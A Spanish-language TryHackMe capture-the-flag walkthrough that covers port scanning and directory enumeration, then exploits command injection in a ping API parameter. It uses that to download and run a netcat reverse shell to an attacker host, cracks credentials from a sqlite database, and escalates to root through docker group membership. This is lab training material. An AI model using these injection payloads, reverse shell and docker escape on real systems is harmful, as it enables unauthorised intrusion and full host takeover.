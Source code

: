 Bienvenidos a otra sala de tryhackme. Escanearemos puertos abieros con nuestra herramienta bien conocida, enumeraremos la maquina e investigaremos como se comportan las API para luego transferirnos nuestro archivo malicioso y obtener una shell interactiva en nuestra maquina atacante. Descubriremos un usuario por mala administracion de datos en el sistema y escalaremos privilegios a usuario root utilizando `docker`

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.25s latency).
Scanned at 2023-07-05 05:35:48 EDT for 30s
Not shown: 65419 closed ports, 112 filtered ports
Reason: 65419 resets and 112 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    syn-ack ttl 63 Node.js Express framework
31331/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo nos muestra 4 puertos abiertos. Navegamos al servidor web para recopilar informacion. Iniciamos gobuster para buscar rutas ocultas en los puertos 8081 y 31331.

```bash
gobuster dir -u http://IPTARGET:8081 -w /Path/Wordlist -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 05:56:29 Starting gobuster
=====================================================
/auth (Status: 200)
=====================================================
2023/07/05 05:57:25 Finished
=====================================================

gobuster dir -u http://IPTARGET:31331 -w /PathWordlist -t 100


=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 05:56:14 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/favicon.ico (Status: 200)
/images (Status: 301)
/javascript (Status: 301)
/js (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
=====================================================
2023/07/05 05:57:13 Finished
=====================================================


```

# Intrusion

Nos dirigimos a la ruta /js, en **api.js** nos muestra como la funcion se utiliza para comprobar el estado de una API mediante una solicitud GET a una URL específica.

```bash
`http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Realizamos una prueba de ping a nuestra maquina atacante en la direccion URL del puerto 8081 para ver si tenemos exito. Si este es el caso, podemos generar una reverse shell dentro de nuestro sistema para poder enumerarlo correctamente.

```bash
#Capturamos trafico ICMP
sudo tcpdump -i tun0 icmp -n -v

# Nos dirigimos a la URL del puerto 8081
http://IPTARGET:8081

#Le indicamos con el parametro /ping?ip= que nos envie 10 paquetes ICMP a nuestra maquina atacante
http://IPTARGET:8081/ping?ip=`ping -c 10 LHOST`
```

Una vez la respuesta fue exitosa, nos transferimos nuestra shell para luego ejecutarla en el sistema con bash.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc LHOST LPORT >/tmp/f" > shell.php

# abrimos servidor http python
python3 -m http.server 8080

# Transferimos el archivo
http://IPTARGET:8081/ping?ip=`wget LHOST:8080/shell.php`

# Nos ponemos en escucha
nc -nvlp LPORT

# Ejecutamos la shell
http://IPTARGET:8081/ping?ip=`bash shell.php`
```

Una vez dentro, upgradeamos nuestra shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

En directorio que estamos **/api** podemos ver una base de datos sqlite. Ejecutamos cat para ver su contenido `cat utech.db.sqlite` y obtenemos dos credenciales que pertenecen a los usuario **admin/r00t**. Usamos crackstation para crackear sus password o puedes utilizar hashcat.

```bash
echo "password" > hash.txt
hashcat -m 0 /Path/Wordlist hash.txt
```

Establecemos una conexion ssh al usuario r00t.

```bash
ssh r00t@IPTARGET
```

# Priv.Escalation

LIstamos los grupos del sistema `id` y podemos escalar privilegios utilizando `docker`

Gtfobins nos indica que podemos escalar privilegios utilizando el siguiente comando:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Al ejecutarlo, nos dira que no hay ningun proceso ejecutandose en modo alpine y nos dara erro. Para corregir esto, tendremos que listar los procesos que se estan ejecutando en docker y luego modificar el proceso en el comando que escribimos anteriormente.

```bash
docker ps -a 


CONTAINERID  IMAGE COMMAND                  CREATED     STATUS       ...
7beaaeecd784 bash  "docker-entrypoint.s…"   4 years ago Exited (130) ... 
696fb9b45ae5 bash  "docker-entrypoint.s…"   4 years ago Exited (127) ...
9811859c4c5c bash  "docker-entrypoint.s…"   4 years ago Exited (127) ...

# Modificamos el comando y cambiamos alpine por bash

docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

